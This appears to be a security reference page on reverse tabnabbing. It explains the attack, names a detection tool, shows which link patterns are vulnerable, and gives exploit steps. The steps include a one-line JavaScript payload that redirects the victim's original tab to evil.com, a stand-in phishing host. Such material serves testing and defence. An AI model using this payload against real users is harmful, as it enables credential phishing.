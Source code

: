 # Tabnabbing

> Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Exploit](#exploit)
* [Discover](#discover)
* [References](#references)

## Tools

* [PortSwigger/discovering-reversetabnabbing](https://portswigger.net/bappstore/80eb8fd46bf847b4b17861482c2f2a30) - Discovering Reverse Tabnabbing

## Methodology

When tabnabbing, the attacker searches for links that are inserted into the website and are under his control. Such links may be contained in a forum post, for example. Once he has found this kind of functionality, it checks that the link's `rel` attribute does not contain the value `noopener` and the target attribute contains the value `_blank`. If this is the case, the website is vulnerable to tabnabbing.

## Exploit

1. Attacker posts a link to a website under his control that contains the following JS code: `window.opener.location = "http://evil.com"`
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
4. If the victim opens the background tab again and doesn't look at the address bar, it may happen that he thinks he is logged out, because a login page appears, for example.
5. The victim tries to log on again and the attacker receives the credentials

## Discover

Search for the following link formats:

```html
<a href="..." target="_blank" rel=""> 
<a href="..." target="_blank">
```

## References

* [Reverse Tabnabbing - OWASP - October 20, 2020](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
* [Tabnabbing - Wikipedia - May 25, 2010](https://en.wikipedia.org/wiki/Tabnabbing)
